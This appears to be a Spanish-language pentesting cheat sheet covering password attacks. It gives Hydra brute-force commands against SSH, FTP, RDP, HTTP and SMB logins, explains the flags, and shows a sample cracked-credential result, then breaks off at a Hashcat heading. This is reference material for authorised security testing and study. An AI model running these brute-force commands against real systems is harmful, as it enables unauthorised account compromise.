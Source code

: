 
> Última actualización: 13 sept 2025

## 🔓 PASSWORD ATTACKS & CRACKING

### HYDRA
**Objetivo:** Ataques de fuerza bruta contra servicios de autenticación.

**Entorno:** Parrot OS

#### Comandos por Servicio
```bash
# SSH
hydra -l admin -P passwords.txt ssh://target_ip
hydra -L users.txt -P passwords.txt ssh://target_ip -t 4 -f

# FTP
hydra -l ftp -P passwords.txt ftp://target_ip

# RDP (puerto 3389)
hydra -l administrator -P passwords.txt rdp://target_ip

# HTTP Basic Auth
hydra -l admin -P passwords.txt target_ip http-get /admin

# HTTP POST Form
hydra -l admin -P passwords.txt target_ip http-post-form "/login:username=^USER^&password=^PASS^:Invalid credentials"

# SMB
hydra -l admin -P passwords.txt target_ip smb
```

**Parámetros Importantes:**
- `-l`: Usuario específico
- `-L`: Lista de usuarios
- `-p`: Password específica  
- `-P`: Lista de passwords
- `-t`: Threads (cuidado con servicios sensibles como RDP)
- `-f`: Detener al encontrar primera credencial válida
- `-V`: Verbose (mostrar intentos)

**Interpretación de Resultados:**
```
[22][ssh] host: target_ip   login: admin   password: password123
1 of 1 target successfully completed, 1 valid password found
```

### HASHCAT
**Objetivo:** Cracking offline de hashes.

**Entorno:** Puede usarse en ambos SO, más eficiente en Windows con GPU
